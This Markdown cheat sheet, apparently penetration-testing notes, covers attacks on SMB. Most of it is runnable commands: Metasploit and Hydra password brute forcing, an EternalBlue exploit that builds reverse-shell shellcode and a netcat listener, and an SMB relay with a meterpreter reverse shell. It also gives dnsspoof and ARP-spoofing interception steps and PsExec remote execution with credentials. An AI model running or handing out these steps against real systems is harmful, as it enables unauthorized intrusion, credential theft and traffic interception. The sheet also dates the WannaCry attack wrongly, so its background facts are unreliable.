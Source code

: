 # SMB

# Explanation

- SMB (Server Message Block) : Network file sharing protocol that is used to facilitate the sharing of files
and peripherals between computers on a local network (LAN).

- SMB uses port TCP/445. However, originally, SMB ran on top of NetBIOS using port TCP/139.

- SAMBA is the open source linux implementation of SMB, and allows Windows systems to access Linux shares and devices.

# SMB brute force attack

```
service postgresql start && msfconsole
msf6 > use auxiliary/scanner/smb/smb_login
msf6 > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf6 > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf6 > set RHOSTS 10.2.24.221
msf6 > set VERBOSE false
msf6 > run
```

```
hydra -L admin -P /usr/share/wordlists/rockyou.txt 192.168.1.1 smb
```

# Exploiting MS17-010 - CVE-2017-0144 EternalBlue

## Description

- EternalBlue is the name given to a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is a part of.

- The EternalBlue exploit was developed by the NSA (National Security Agency) to take advantage of the MS-17-010 vulnerability and was leaked to the public by a hacker group called by Shadow Brokers in 2017.

- The EternalBlue exploit takes advantage of vulnerability in the Windows SMBv1 protocol that allows attackers to send specially crafted packets that consequently facilitate the execution of arbitrary commands.

- The EternalBlue exploit was used in the WannaCry ransomware attack on June 27, 2017 to exploit other Windows systems across networks with the objective of spreading the ransomware to as many systems as possible.

- This vulnerability affects multiple versions of Windows : 
    - Windows Vista
    - Windows 7
    - Windows Server 2008
    - Windows 8.1
    - Windows Server 2012
    - Windows 10
    - Windows Server 2016

- Microsoft released a patch for the vulnerability in March, 2017, however, many users and companies have still not yet patched their systems.

## Exploit MS17-010 with SMB (target : Windows Server 2008 R2)

### Scenario 1

Download and execute shell_prep : 
```
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
cd AutoBlue-MS17-010/shellcode
chmod u+x shell_prep.sh
./shell_prep.sh
```

Generate tcp meterpreter reverse shell : 
```
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y)
LHOST for reverse connection :
10.10.10.10
LPORT you want x64 to listen on:
1234
LPORT you want x86 to listen on:
1234
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
1
Type 0 to generate a staged payload or 1 to generate a stageless payload
1
```

Start listener : 
```
nc -nvlp 1234
```

Exploiting with main python script (Windows Server 2008 R2 Standard) : 
```
cd ..
chmod u+x eternalblue_exploit7.py
python eternalblue_exploit7.py 10.10.10.12 shellcode/sc_x64.bin 
```
### Scenario 2

Use metasploit framework : 
```
msfconsole
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 > set RHOSTS 10.10.10.12
msf6 > exploit
```

# SMB & DNS Relay Attack

An SMB relay attack is a type of network attack where an attacker intercepts SMB (Server Message Block) traffic, manipulates it, and relays it to legitimate server to gain unauthorized access to resources or perform malicious action.

This type of attack is common in Windows networks, where SMB is used for file sharing, printer sharing, and other network services.

## 1. Start msfconsole and configure the SMB Relay exploit

```
msfconsole
use exploit/windows/smb/smb_relay
set SRVHOST <attacker-ip
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <attacker-ip>
set SMBHOST <victim-ip>
exploit
```

## 2. Configure dnsspoof

to redirect the victim to our Metasploit system every time there's an SMB connection to any host in the domain sportsfoo.com.

```
echo "<attacker-ip> *.sportsfoo.com" > dns
dnsspoof -i eth1 -f dns
```

## 3. Activate the MiTM attack using the ARP Spoofing technique

Our goal is to poison the traffic between our victim, Windows 7, and the default gateway. In this way, we can manipulate the traffic using
dnsspoof, which is already running. In order to perform an ARP Spoofing attack, we need to enable the IP forwarding as follow:

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

In two separate terminals, start the ARP Spoof attack against Windows 7 client and gateway using these commands:
```
arpspoof -i eth1 -t <win7-client-ip> <gateway-ip>
arpspoof -i eth1 -t <gateway-ip> <win7-client-ip>
```

## 4. Interact with the meterpreter session

```
sessions
sessions -i 1
getuid
```

# SMB connect with PsExec

PsExec is a lightweight telnet-replacement developed by Microsoft that allows you execute processes on remote windows systems using user's credentials.

```
psexec.py Administrator@10.2.24.221 cmd.exe

Password: <your_passwd>
```

```
msf6 > use exploit/windows/smb/psexec
msf6 > set RHOSTS 10.2.24.221
msf6 > set SMBUser Administrator
msf6 > set SMBPass qwertyuiop
msf6 > run
```

# Mount and dismount a network drive on Windows

```
net use Z: \\<target>\C$ /user:username password
net use Z: /delete
net use * /delete
```

# Read SMB share on Linux attack machine

```
smbclient -N //<target>/public
smbclient -U admin //<target>/admin
```